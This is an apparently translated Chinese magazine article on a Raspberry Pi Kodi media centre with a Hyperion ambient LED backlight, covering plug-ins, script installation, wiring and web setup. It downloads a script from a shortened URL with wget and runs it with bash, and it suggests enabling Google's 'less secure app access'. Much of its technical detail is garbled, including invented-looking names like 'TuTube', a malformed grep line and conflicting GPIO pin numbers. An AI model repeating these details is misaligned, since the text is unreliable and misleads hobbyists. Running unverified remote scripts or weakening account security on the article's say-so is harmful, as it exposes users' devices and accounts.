除此之外，你还可以在 LibreELEC 插件库的“模拟器”部分安装 MAME 和 DOSBox 运行的经典游戏。此外还有许多独立游戏可供享受，包括 2048、Mr Boom（一个炸弹人克隆版）和 ScummVM。

### 具有远见的 Pi 设备

> “Pi 4 可能还不能以 60Hz 驱动两台 4K 显示器，但它绝对能驱动一台！”

浏览 YouTube。至少对我们来说它是有效的——某个插件页面建议，如果对你无效，你应该尝试在 Google 账号设置的“不安全访问允许”选项中运行。

但为什么要局限于 Google 的单色世界？考虑从去中心化来源或对 FOSS（自由开源软件）友好的服务中获取娱乐，例如 PeerTube。安装这个明显比安装 YouTube 要简单得多。请查看 wiki：`https://rambohvfs.stmr.io/Sfg/plugin_videotube.html`。

TuTube 会告诉你关于将此插件与 Tellybean 配合使用并将其连接到 Kodi 的所有必要信息。




### 绚丽之光

通过一圈色彩斑斓的、类似于 Ambilight 且能随画面变化的 LED 灯带，为您的媒体中心增添一份活力。


您可能在一些飞利浦电视上见过 Ambilight 系统，有时它也被称为“背光照明”（Bias Lighting）。如果您不熟悉，其原理非常简单：在电视背面安装一圈 RGB LED 灯，这些灯会根据屏幕上发生的内容同步亮起。这产生了一种将图像延伸到屏幕后方墙壁上的视觉效果。

目前有多种方法可以使用开源工具和硬件来重现这一系统并将其接入 Kodi。最受欢迎的方案叫做 Hyperion，它的出现时间几乎与 Ambilight 电视一样久。Hyperion 灵活且强大，一种常见的配置是在设备（例如您的 PC）上运行 Kodi，并连接到一个 HDMI 分配器和采集设备。然后，HDMI 采集信号（通过 USB）发送到运行 Hyperion 的 Pi 上，由其驱动 LED 灯。

这种配置对我们来说有点复杂，所以我们想尝试提出自己的想法，理想情况下是减少活动部件。无论如何，我们最终找到了在 Pi 4 上运行一切的方法，因为还没有人研究出如何可靠地采集帧缓冲区（参见 https://github.com/hyperion-project/hyperion/issues/298）。因此，如果我们想使用本地视频，就得投资一些采集硬件，要么是环回采集接口（如果我们全部在 Pi 上完成），要么是单独的分配器和采集设备（如果 Pi 仅用于驱动 LED）。在亚马逊上稍作搜寻，这两者都能以低于 20 英镑的价格实现。使用采集设备的优势在于，您可以将其用于任何正在观看的 HDMI 输入，这样您的 Pi 就可以为智能电视的界面、桌面背景或 CS:GO 游戏中剧烈的爆炸场景提供环境光效。

安装过程需要简短地回溯一下，在 Pi 2 或 3 上使用 Kodi 18。到您阅读本文时，可能还没有针对这些设备的 Kodi 19 构建版本，但您可能还是想尝试这样做，无论是否使用 LED2U。您可以在下载页面找到之前的稳定版本（0.2.8，以及撰写本文时的最新 Kodi 18.9），或者您可以安装标准的 Raspberry Pi OS 并通过 Kodi 来增强它。它在官方仓库中，所以对于你们这些“勇士”来说，只需执行 `sudo apt install kodi` 即可。

### 捕捉瞬间

我们不再赘述 LibreELEC 9 的设置：其设置和导航与新版本基本相同。Hyperion-NG（原 Hyperion 的继任者）软件目前不使用 Kodi 的插件系统。因此要安装它，您需要设置 SSH 访问并手动获取。这时您会发现“精简版操作系统”（Just Enough OS）这个说法完全准确。通常在 Pi 上，我们习惯于使用 Apt 从仓库安装软件，或者由 Raspberry Pi OS 的一部分来管理依赖，但 LibreELEC 中都没有这些工具。幸运的是，Hyperion 的开发者提供了一个方便的脚本来完成所有安装和设置。不过我们不详细介绍那个过程，如果您遇到问题，请查看 Hyperion 论坛上的这个帖子：https://bit.ly/v3t2f4 Hyperion install。

我们发现该脚本有一个拼写错误，导致它获取了软件的 ARMv8s 构建版本。如果这让您困扰（它困扰了我们），请改为遵循以下指令。





使用“LED Numbers”按钮告知 Hyperion 输入位置（LED 灯带的起点）。

通过 SSH 进入 Pi，浏览到脚本位置，并使用以下命令编辑：

`# wget https://git.io/Iz5Qp -O hyperion.sh`
`# nano hyperion.sh`

现在向下滚动到以下开头的行：

`RPI_1=...`
`RPI_2_3_4=...`

将 `BCM2835` 从 `RPI_1` 行中删除，并将其添加到剩余的 `RPI_2_3_4` 中，使其现在开头为：

`RPI_2_3_4='-grep -ml -e "BCM2709" "BCM2710" "BCM2835" BCM2835...`

事实证明，大多数 Pi v2、3 和 4 报告的都是 BCM2835 SoC，因此之前的检测方案并不可靠。

尽管如此，我们现在已经修复了它，所以可以继续运行脚本：

`# bash hyperion.sh`

脚本将自动修改 `config.txt` 以启用您的 LED，但这需要先重启。重启后，Hyperion 将在后台运行。现在是配置时间。让我们布置一些灯光，但首先请勾选（下方）以获取一些启发性文字。

如您所见，这次设置会涉及一些导线和逻辑门，但不用担心，这不是什么高深科学，所有东西都能整齐地放在一个标准面包板上。由于我们有两个电源（Pi 和 LED 的电源），我们需要使用地线（电流流出的圆形区域）的“0V”导轨来建立公共地。由于面包板只是简单的一块塑料，操作很简单，只需将 Pi 的 GND 连接到面包板的负极导轨即可。当然，此时很想将 Pi 的 5V 线连接到面包板的正极导轨，但**千万不要这样做**，这样我们才能独立关闭 LED 电源并尝试使用它们，此时它们会尝试从 Pi 抽取电流，对于几个闪烁的小灯来说没问题，但在其他任何情况下都行不通（甚至可能损坏设备）。

与其在 GPIO 引脚编号或 Raspberry Pi 应该提供多少功率等问题上进行冗长的争论，我们直接动手实践。我们已经设置好了，如果您觉得哪里不对，欢迎随时告知。我们学到的一点是，虽然 +5V 和 0V 线通常是红色和黑色，且位于公共连接器的相对两侧，但这并不总是如此，不同生产批次可能会有所不同。因此，接线可能与制造商或供应商提供的任何图表不一致。时钟线和数据线接反的一个症状是 LED 不按指令亮起，



但在轻轻摇晃跳线时会出现偶尔的剧烈闪烁。

希望您能够让它运行起来。接下来，访问 Hyperion Web 配置页面 `http://<your-pi-ip-address>:8090`。在通过您的 LibreELEC OS/Kodi 设备的 IP 地址访问后，第一步是告知 Hyperion 您的 LED 属性和数量，这在 LED Instances $\rightarrow$ LED Output 中完成。我们将控制器类型设置为 `APA102`，并将 SPI 设备设置为 `0.0`（使用 GPIO MOSI (10) 和 MISO (11) 以及 SCLK (11) 作为数据线和时钟线）。现在将 Hardware LED count 设置为您拥有的 LED 数量，选择 Save 并进入 LED Layout 选项卡。

配置布局非常简单，您可以通过选择 Remote Control 并挑选随机颜色和效果来测试是否工作。在 Capturing Hardware 部分激活 Screen Capture，您的 LED 应该就会随之波动并亮起。

> 现实生活中的样子远没有这里看起来那么整洁。专业提示：电容的负极通常有一条条纹。

### LED 之道

关于如何正确连接 LED 的优秀信息很多，您绝对应该先研究那些资料，而不是完全信任我们这里不加掩饰的解释。但仍有一些重要的要点我们必须告知。LED 可能消耗大量功率（全亮度时每个可达 60mA），因此如果您有大量 LED，几个灯就足以让您的面包板“起火”（认真的），所以如果您有超过几个 LED，我们建议使用外部电源（我们为 APA102 使用了 5A 5V 的电源）。某些控制器，如“DotStar”或“NeoPixel”，使用 5V 电源，大多数可编程 LED 的数据线（APA102 还有时钟线）也使用 5V。这很棘手，因为 Pi 使用 3.3V 逻辑。这里有几种解决方案，包括什么都不做（LED 能在较低电压下工作），或者使用二极管或一对电阻（制作分压电路）。

但这些方案都不太令人满意，既然我们已经有了外部 5V 电源，不妨配合电平转换器（我们使用了流行的 74AHCT125 芯片）来增强信号，而且它不仅有一个，而是四个输入。这很方便，因为我们的 DotStar 的时钟线和数据线都需要转换。此外，随着您添加越来越多的 LED，残余电流会沿电缆上下流动，引起不必要的效应（并可能造成损坏）。在电源两端放置一个电容可以作为这种电流的储水池，对于我们的 144 个 LED 来说，这绝对是必要的。我们使用了一个 330 微法 (uF) 的电容，但指南建议 100 到 1,000 之间都可以胜任。



Hyperion 的 Web 界面让配置那些微小闪烁的灯光变成了一种几乎迷人的体验。


### 订阅并最高可节省 61%

直接配送至您的家门或直接发送至您的设备

从 80 多本杂志中选择，享受低于商店售价的巨额优惠！同时提供活页夹、书籍和过刊

**只需访问 www.magazinesdirect.com**

- 无隐藏费用
- 所有价格均含运费
- 我们配送至 100 多个国家
- 安全在线支付

### 来自第一名 Linux 杂志的所有顶级内容

### LINUX
### 2023 年度版

使用 Mint 20 保持新鲜感

从零开始构建一个发行版

探索 Linux 在太空中的应用

赢得对抗勒索软件的战争
